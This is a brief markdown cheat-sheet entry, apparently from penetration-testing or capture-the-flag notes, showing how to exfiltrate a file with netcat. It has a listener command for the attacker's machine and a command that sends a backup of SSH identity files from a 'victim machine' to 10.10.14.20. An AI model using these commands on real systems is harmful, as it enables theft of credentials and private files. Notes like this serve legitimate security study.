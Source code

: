 
# Exfil with Netcat
- on local machine, start nc listener and send to file (in this example, I was exfil'ing a compressed file) `nc -lvp 1234 > backup.tgz`
- on victim machine, run nc to send the data `nc 10.10.14.20 1234 < /home/david/public_www/protected-file-area/backup-sshidentity-files.tgz`